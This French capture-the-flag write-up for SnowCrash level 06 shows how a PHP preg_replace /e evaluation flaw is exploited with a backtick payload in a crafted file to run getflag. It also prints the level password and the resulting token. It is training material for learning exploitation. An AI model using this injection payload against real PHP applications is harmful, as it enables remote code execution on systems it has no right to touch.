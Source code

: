# LEVEL 06

### Reconnaissance

Lorsqu'on se connecte au level06, avec le password viuaaale9huek52boumoomioc
On a 2 fichiers:
```
level06@SnowCrash:~$ ls -la
total 24
dr-xr-x---+ 1 level06 level06  140 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level06 level06  220 Apr  3  2012 .bash_logout
-r-x------  1 level06 level06 3518 Aug 30  2015 .bashrc
-rwsr-x---+ 1 flag06  level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06  level06  356 Mar  5  2016 level06.php
-r-x------  1 level06 level06  675 Apr  3  2012 .profile
```

- un binaire (level06)
- un fichier php (level06.php)

### Exploitation

En analysant le fichier php on peux voir une vulnérabilitée:

```
PREG_REPLACE_EVAL : /e --> [...]$a = preg_replace("/(\[x (.*)\])/e"[...]
```

Il nous suffit donc d'inséré un code qui poura etre évaluer:

```
level06@SnowCrash:~$ vim /tmp/exploit
// entrer ce code
[x ${`$z`}]
```

- Explication
```
[x        ]	--> code a remplacer sur le preg_replace
${}	    	--> https://www.php.net/manual/en/language.types.string.php#language.types.string.parsing.complex
``	        --> revient a faire un shell_exec() mais avec l'avantage ici de ne pas devoir inseré de quote ni de parenthèse.
```
Plus d'infos: https://stackoverflow.com/questions/3115559/exploitable-php-functions

```
level06@SnowCrash:~$ ./level06 /tmp/exploit getflag
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
 in /home/user/level06/level06.php(4) : regexp code on line 1
```

Et voila :)
